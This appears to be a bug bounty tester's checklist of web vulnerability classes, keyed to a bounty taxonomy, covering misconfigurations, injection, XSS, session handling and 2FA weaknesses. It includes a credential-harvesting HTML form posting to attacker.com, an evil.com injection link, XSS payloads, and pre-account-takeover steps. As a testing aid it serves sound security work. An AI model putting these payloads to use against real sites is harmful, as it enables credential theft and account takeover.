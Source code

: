 > ***Server Security Misconfiguration > Misconfigured DNS > Zone Transfer***
- [ ] [DNS-ZONE-TRANSFER-CHECKER](https://pentest-tools.com/network-vulnerability-scanning/dns-zone-transfer-check)

>***Server Security Misconfiguration > Mail Server Misconfiguration > Email Spoofing to Inbox due to Missing or Misconfigured DMARC on Email Domain***
- [ ] [DMARC-Inspector](https://dmarcian.com/dmarc-inspector/)
- [ ] [POC](https://emkei.cz/)

> **Server Security Misconfiguration > Database Management System (DBMS) Misconfiguration > Excessively Privileged User / DBA**
- [ ] [[API5 Broken Function Level Authorization (BFLA)]]

>**Server Security Misconfiguration > Lack of Password Confirmation > Delete Account**

- [ ] Check for any confirmations when deleting password

>**Server Security Misconfiguration > No Rate Limiting on Form**
- [ ] Registration
- [ ] login
- [ ] Email Triggering
- [ ] SMS-Triggering
1. bugcrowd alias h0tak88r+1@bugcrowdninja.com -> Intruder -> [[No-Rate-Limit]] 

>***Server Security Misconfiguration > Missing Secure or HTTPOnly Cookie Flag > Session Token***
- [ ] Check for HTTPOnly Cookie Flag for thr session token and be sure it Really session token

>***Server Security Misconfiguration > Lack of Security Headers > Cache-Control for a Sensitive Page***
- [ ] Open Sensitive-Response  Page -> No Cache Control or No Expire -> Close Browser -> Send request in burp -> Observe that You can see the same/cached response 

>***Server Security Misconfiguration > Clickjacking > Sensitive Click-Based Action***
- [ ] Click Based Actions

>****Server Security Misconfiguration > OAuth Misconfiguration > Account Squatting | Pre-ATO***
1. Register an account via victim email or Change your account to unsigned-victim email if there is no confirmation from victim side 
2. Don't Confirm the email
3. Victim register with OAUTH and login his account 
4. Attacker use Credentials in Step(1) to login to the account 

>***Server Security Misconfiguration > CAPTCHA > Implementation Vulnerability***
- [ ] [[CAPTCHA Feature]]

>***Server Security Misconfiguration > Web Application Firewall (WAF) Bypass > Direct Server Access***
- [ ] Check for original IP in shodan.io or other Alternatives (ipcriminal,....) and make sure it doesn't implement WAF

>***Server-Side Injection > Content Spoofing***
- [ ] Check  For Impersonation via <span style="color:#06ea6c">Broken Link Hijacking</span> via this [Extension](https://addons.mozilla.org/en-US/firefox/addon/find-broken-links/)
- [ ] Check for <span style="color:#06ea6c">Email HTML Injection</span> -> by Injecting in all Fields -> `<a href="https://evil.com">Click me to Win 100$</a>` -> Email Triggering Action -> Input Field Rendered as HTML content in email

>****Server-Side Injection > Server-Side Template Injection (SSTI) > Basic***
- [ ] Basic SSTI That u couldn't exploit Further [[SSTI]] ->  [[Parameters Reflection Analysis]]

>***Server-Side Injection > Content Spoofing > External Authentication Injection***
- [ ] Try Using HTML Injection to Inject a External Authentication Form to Still Credentials from the user
```html
<form action="https://attacker.com/steal.php" method="POST">
	<label for="username">Username:</label>
	<input type="text" id="username" name="username" required>

	<label for="password">Password:</label>
	<input type="password" id="password" name="password" required>

	<button type="submit">Log In</button>
</form>
```

>***Broken Authentication and Session Management***

- [ ] Failure to Invalidate Session -> On Password Reset and/or Change 
- [ ] Failure to Invalidate Session > On Logout (Client and Server-Side)
	-  In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out 
- [ ] Clear-text Transmission of Session Token
	- there is no `secure` flag for the session token 
	- `curl http://example.com/path/to/resource`
- [ ] Registration over HTTP
- [ ] Login over HTTP/Or any 

>***Sensitive Data Exposure***

- [ ] Pay-Per-Use-Abuse ( API_Keys, Paid Services Tokens,....)
- [ ] EXIF Geo-location Data Not Stripped From Uploaded Images > Manual User Enumeration
- [ ] Token Leakage via Referer > Untrusted 3rd Party
- [ ] Weak Password Reset Implementation > Password Reset Token Sent Over HTTP
- [ ] Sensitive Token in URL > User Facing
- [ ] Via localStorage/sessionStorage > Sensitive Token

>  **XSS**
- [ ] Stored > Privileged User to No Privilege Elevation
- [ ] Universal (UXSS) -> Data URI -> `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`
- [ ] Referer XSS -> `Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5`

>  ***Broken Access Control (BAC) > Server-Side Request Forgery (SSRF) > External***
- [ ] Low Impact of SSRF Vuln, the impact of "external SSRF" is believed to be DoS, information disclosure (in the request), and origin IP disclosure

> ***Broken Access Control (BAC) > Username/Email Enumeration > Non-Brute Force***
- [ ] Found [[IDOR]] or [[Authorization-Schema]] that Leaks Usernames/Emails

> ***Unvalidated Redirects and Forwards > Open Redirect > GET-Based***
- [ ] [[Open Redirect]]

> ***Insufficient Security Configurability*** 
- [ ] No Password Policy -> Password:`123`
- [ ] Weak Password Reset Implementation > Token is Not Invalidated After Use
- [ ] Weak 2FA Implementation > 2FA Secret Cannot be Rotated
	Rotating the secret means changing this key periodically to enhance security. If the 2FA secret cannot be rotated, it means that once the secret is compromised, an attacker could potentially gain ongoing access to the account without the user’s knowledge, as there is no way for the user to change the secret.
- [ ] Weak 2FA Implementation > 2FA Secret Remains Obtainable After 2FA is Enabled
	Look for Leaked 2FA Secret after acticvating 2FA
